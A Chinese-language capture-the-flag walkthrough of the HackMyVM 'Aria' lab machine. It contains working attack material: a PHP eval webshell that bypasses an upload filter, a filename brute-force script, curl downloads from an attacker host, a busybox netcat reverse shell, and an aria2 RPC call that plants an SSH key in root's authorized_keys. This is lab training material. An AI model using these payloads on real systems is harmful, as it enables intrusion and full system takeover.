# Aria



| 靶机名称 | 作者     | 难易程度 | 平台     |
| -------- | -------- | -------- | -------- |
| Aria     | Sublarge | 易       | hackmyvm |

## 信息收集

### 端口扫描

我发现普通状态下，无法扫描到所有开着的端口，所以我们先扫端口，再做版本检测：

```shell
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- 192.168.56.214        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 07:40 -0400
Nmap scan report for 192.168.56.214
Host is up (0.0023s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
1337/tcp open  waste
MAC Address: 08:00:27:3D:08:6E (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 26.26 seconds

┌──(root㉿kali)-[/home/kali]
└─# nmap -sC -sV 192.168.56.214 -p 22,80,1337
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-09 07:41 -0400
Nmap scan report for 192.168.56.214
Host is up (0.0020s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f6:a3:b6:78:c4:62:af:44:bb:1a:a0:0c:08:6b:98:f7 (RSA)
|   256 bb:e8:a2:31:d4:05:a9:c9:31:ff:62:f6:32:84:21:9d (ECDSA)
|_  256 3b:ae:34:64:4f:a5:75:b9:4a:b9:81:f9:89:76:99:eb (ED25519)
80/tcp   open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Ultra-Secure Naming Service
|_http-server-header: Apache/2.4.62 (Debian)
1337/tcp open  waste?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL, RPCCheck: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|   GenericLines: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: 
|     Command not found:
|   GetRequest: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: GET / HTTP/1.0
|     Command not found:
|   HTTPOptions: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: OPTIONS / HTTP/1.0
|     Command not found:
|   Help: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: HELP
|   Kerberos: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: qj
|   RTSPRequest: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: OPTIONS / RTSP/1.0
|     Command not found:
|   SSLSessionReq, TerminalServerCookie: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found:
|   TLSSessionReq: 
|     --- Aria Debug Shell ---
|     Type 'exit' to quit ---
|     Command not found: 
|_    random1random2random3random4
....... # 这里省略了一些内容。

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.23 seconds

```

端口有：

* 22
* 80
* 1337 ：不是标准服务，基本上可以判断，其是一个自定义的TCP调试壳。

### web目录枚举

```bash
┌──(root㉿kali)-[/tmp/123]
└─# dirsearch -u http://192.168.56.214/ 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /tmp/123/reports/http_192.168.56.214/__26-04-09_08-01-05.txt

Target: http://192.168.56.214/

[08:01:05] Starting: 
# 中间的是无用的信息
[08:02:07] 301 -  318B  - /uploads  ->  http://192.168.56.214/uploads/ 
[08:02:07] 403 -  279B  - /uploads/                                     
[08:02:08] 200 -  596B  - /upload.php                              

Task Completed
```

还存在一个uploads目录，uploads目录并没有扫描出有用的信息。

## web应用分析



收集到的信息：

* 文件路径不可预测，文件名主要基于md5(time().rand(1,1000))生成的。
* 仅接受 gif / jpg / png ≤ 1 MB。
* 内容不可含 `<?php`。可能进行了文件内容的检测。

### 文件上传漏洞检测

这里先贴一个payload：


这个基本上可以绕过所有的文件上传检测。

我们先判断文件上传检测到底先检测的哪里：



修改文件名，可以上传成功。



修改MIME类型，发现仍然可以上传成功。



修改文件内容，上传失败。

从这里可以看出来，文件上传检测的是文件的内容，我们从最简单的绕过开始，在文件开头加`GIF89a`：



上传成功了，但是无法知道文件路径。

**方法1：**

`test.php`:

```php
GIF89a
<?= eval($_GET["cmd"]); ?>
```

`upload_enum.py`:

```python
import time
import requests
import hashlib 

def upload_file(path, url):
    print('start time:',time.time())
    response = requests.post(url, files={'file': open(path, 'r')})
    end_time = time.time()
    print('end time:',end_time)
    return int(end_time)

def url_requests(time,url):
    for j in range(time-5,time+5):
        found = False
        for i in range(0,1001):
            filename = str(hashlib.md5(str(j).encode() + str(i).encode()).hexdigest()) + '.php'
            result_url = url + filename
            res = requests.get(url=result_url)
            if res.status_code != 404:
                print('File found:', result_url)
                found = True
                break
        if found:
            break

if __name__ == '__main__':
    end_time = upload_file('./test.php', 'http://192.168.56.214/upload.php')
    print(end_time)
    url_requests(end_time, 'http://192.168.56.214/uploads/')
```



**方法2**

靶机有一个1337端口，是一个自定义的后门：

```shell
┌──(kali㉿kali)-[~]
└─$ nc 192.168.56.214 1337
--- Aria Debug Shell ---
--- Type 'exit' to quit ---

$ help
This shell aids admins in debugging Aria services.
Use specific commands to view logs or hidden path.
Note: Web interface also provides foothold access.
$ showpath
# 猜测一个特殊命令，这个特殊命令是可以看隐藏路径。
$ showpath
--- Upload Paths ---
Fri 10 Apr 2026 02:32:13 AM EDT: New file created: /var/www/html/uploads/ca3f2d3f399ab21a31f0b91662a60a94.php
Fri 10 Apr 2026 02:33:18 AM EDT: New file created: /var/www/html/uploads/80264a6560beb87673ea57e1ffab1b29.php
Fri 10 Apr 2026 02:33:57 AM EDT: New file created: /var/www/html/uploads/b825eacfe89fe7b5c8cac911d4c70152.php
Fri 10 Apr 2026 02:34:22 AM EDT: New file created: /var/www/html/uploads/a3cc2a3783ddcaeefa5f015b2afa397c.php
Fri 10 Apr 2026 02:34:44 AM EDT: New file created: /var/www/html/uploads/8c3733dbc7106d0335f1fe4f1beeef6f.php
Fri 10 Apr 2026 02:35:44 AM EDT: New file created: /var/www/html/uploads/45bac5a2c86218f8d4306aae50c17956.php
Fri 10 Apr 2026 02:36:23 AM EDT: New file created: /var/www/html/uploads/8e9413fd0796b8eb63415135752449d8.php
Fri 10 Apr 2026 02:39:09 AM EDT: New file created: /var/www/html/uploads/cca77e1fecc17cd505aaa4a58d783e8c.php
Fri 10 Apr 2026 02:39:52 AM EDT: New file created: /var/www/html/uploads/81f7662ad57ce65aaeed87cd8c79654e.php
Fri 10 Apr 2026 02:41:12 AM EDT: New file created: /var/www/html/uploads/869cf1900fcd20ca7347c3f24bc252e2.php
Fri 10 Apr 2026 02:42:45 AM EDT: New file created: /var/www/html/uploads/f2447e0be56b4d5bce46a2b00f11b63a.php
Fri 10 Apr 2026 02:43:07 AM EDT: New file created: /var/www/html/uploads/23e8f32e0eea787b7d511683b1b92140.php
Fri 10 Apr 2026 02:44:48 AM EDT: New file created: /var/www/html/uploads/e166b84b95785109ee207b025e98a9ca.php
--- End of Log ---
```

## 木马后门验证



后端报错了，我前面写的木马有问题了，已经改过来了。



后门 可以 执行任意代码。

从上图我们还可以获取到的有用信息：

* php 禁用了这些函数：`system,passthru,shell_exec,proc_open,pcntl_exec,dl`

## 反向shell测试

```shell
┌──(kali㉿kali)-[/tmp/123]
└─$ cp /usr/bin/busybox .
                                                                 
┌──(kali㉿kali)-[/tmp/123]
└─$ ls    
busybox
                                                               
┌──(kali㉿kali)-[/tmp/123]
└─$ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
# 这是在攻击者机器上
```

我们通过我们留的后门下载busybox，`payload`：

```
http://192.168.56.214/uploads/7fcc37501cf060e0fafbc26adef5ce30.php?cmd=$a=array();exec('curl -O http://192.168.56.102:8000/busybox',$a);print_r($a);
```



这里用curl的原因：没有wget命令。

```shell
http://192.168.56.214/uploads/7fcc37501cf060e0fafbc26adef5ce30.php?cmd=$a=array();exec('chmod 777 busybox;ls -al busybox',$a);print_r($a);
```

这里为busybox的添加可执行权限。

反向连接shell：

```shell
# 在攻击者机器上监听39666端口
nc -lvvnp 39666
```

通过后门执行：

```shell
http://192.168.56.214/uploads/7fcc37501cf060e0fafbc26adef5ce30.php?cmd=$a=array();exec('busybox nc 192.168.56.102 39666 -e /bin/bash',$a);print_r($a);
```

验证shell：

```shell
┌──(kali㉿kali)-[/tmp/123]
└─$ nc -lvvnp 39666       
listening on [any] 39666 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.214] 42820
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 优化非交互式shell

```shell
srcipt -qc /bin/bash /dev/null
# 优化为半交互式shell
# ctrl + Z
# sttr raw -echo; fg
# reset
# xterm
www-data@Aria:/var/www/html/uploads$ export TERM=xterm      
www-data@Aria:/var/www/html/uploads$ export SHELL=/bin/bash
www-data@Aria:/var/www/html/uploads$ source /home/aria/.bashrc
www-data@Aria:/home/aria$ stty rows 21 columns 130 
# 这就是全交互式shell
```

## 纵向移动

### 系统信息枚举

```shell
www-data@Aria:/home/aria$ cat user.txt
flag{user-d13adadc6bbc[hidden]
​‌‌‌​‌​​​‌‌​‌‌‌‌​‌‌​‌​‌‌​‌‌​​‌​‌​‌‌​‌‌‌​​​‌‌‌​‌​​​‌​​​​​​‌‌​‌‌​‌​‌‌​​​​‌​‌‌‌‌​‌​​‌‌​​‌​‌​​‌​‌‌​‌​‌‌‌​​‌‌​‌‌​​‌​‌​‌‌​​​‌‌www-data@Aria:/home/aria$ cat -A user.txt
flag{user-d13adadc6bbc1391394a5198cba2d1d7}$
M-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^LM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^KM-bM-^@M-^LM-bM-^@M-^L
```

flag后面隐藏了一段信息，这是**零宽字符隐写**，[零宽字符隐写在线工具](https://stegzero.com/)。



```
www-data@Aria:/home/aria$ find / -perm -u=s -type f -exec ls -al {} \; 2>/dev/null
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 47184 Apr  6  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 63568 Apr  6  2024 /usr/bin/su
-rwsr-xr-x 1 root root 34888 Apr  6  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 23448 Jan 13  2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 182600 Jan 14  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-xr-- 1 root messagebus 51336 Jun  6  2023 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 481608 Dec 21  2023 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 19040 Jan 13  2022 /usr/libexec/polkit-agent-helper-1
# www-data 不是一个真正的用户，使用sudo -l时，发现其需要密码，修改密码发现权限不够。
www-data@Aria:/home/aria$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

**sudo capabilities suid 信息枚举** 并没有发现有利于提权的信息。

```shell
www-data@Aria:/tmp/123$ busybox netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       
tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN      
tcp        0      0 127.0.0.1:6800          0.0.0.0:*               LISTEN      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      
tcp        0      0 :::80                   :::*                    LISTEN      
tcp        0      0 ::1:6800                :::*                    LISTEN      
tcp        0      0 :::22                   :::*                    LISTEN      
udp        0      0 0.0.0.0:68              0.0.0.0:*     
```

本地在6800端口还运行这一个服务，该服务是Aria2 RPC 服务，Aria2 是一个功能强大的下载工具。查看该服务是以啥身份运行：

```shell
www-data@Aria:/tmp/123$ ps -aux | grep aria
root         365  0.0  0.1  56656  2228 ?        Ss   02:20   0:03 /usr/bin/aria2c --conf-path=/root/.aria2/aria2.conf
aria         421  0.0  0.1  15916  3540 ?        Ss   02:20   0:00 /lib/systemd/systemd --user
aria         427  0.0  0.0  17772  1768 ?        S    02:20   0:00 (sd-pam)
aria        1636  0.0  0.0   2472   508 ?        Ss   05:00   0:00 /bin/sh -c yes
aria        1637 32.8  0.0   5352   500 ?        D    05:00   0:10 yes
www-data    1641  0.0  0.0   3176   648 pts/1    S+   05:00   0:00 grep aria
```

该服务是以root身份运行，我们可以将文件下载到/root目录下。

### 权限提升

思路：我们在攻击机器上创建一个密钥，通过`python -m http.server`开启一个http服务，在靶机上通过aria2 RPC 服务把公钥下载到/root/.ssh目录下，通过ssh进行登录。

在攻击机器上：

```shell
┌──(root㉿kali)-[~/.ssh]
└─# ssh-keygen
# 创建一个密钥
┌──(root㉿kali)-[~/.ssh]
└─# python3 -m http.server 8000          
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

在靶机上：

```shell
www-data@Aria:/tmp/123$ curl -H "Content-Type: application/json" -d '{"jsonrpc":"2.0","id":"1","method":"aria2.addUri","params":["token:maze-sec",["http://192.168.56.102:8000/id_ed25519.pub"],{"dir":"/root/.ssh","out":"authorized_keys"}]}' http://127.0.0.1:6800/jsonrpc
{"id":"1","jsonrpc":"2.0","result":"58e7587814c4cc3f"}
```

```shell
┌──(root㉿kali)-[~/.ssh]
└─# ssh -i id_ed25519 root@192.168.56.214
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
Linux Aria 4.19.0-27-amd64 #1 SMP Debian 4.19.316-1 (2024-06-25) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@Aria:~# cat /root/root.txt
flag{root-374495cbd5[hidden]
```

## 总结

我自己只走到优化非交互式shell，后面的看的别人的wp做的，提权，我只会suid，sudo，capiabilities。

